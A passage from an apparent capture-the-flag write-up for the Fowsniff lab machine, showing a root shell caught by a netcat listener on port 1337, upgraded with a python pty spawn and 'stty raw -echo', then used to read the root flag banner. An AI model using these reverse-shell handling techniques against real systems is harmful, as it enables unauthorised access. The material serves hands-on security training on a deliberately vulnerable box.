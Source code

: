 3. And that is how we can get the in as `root` and pwn the box.

```bash
# whoami
whoami
root
# which python3
which python3
/usr/bin/python3
# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@fowsniff:/# ^Z
zsh: suspended  nc -lnvvp 1337
                                                                                                        
┌──(kali㉿kali)-[~/…/Easy/Fowsniff CTF/ssh/tmp]
└─$ stty raw -echo; fg

[1]  + continued  nc -lnvvp 1337

root@fowsniff:/# export TERM=xterm-256color
root@fowsniff:/root# cat flag.txt 
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.

root@fowsniff:/root# 
```

## EXTRA TREATS
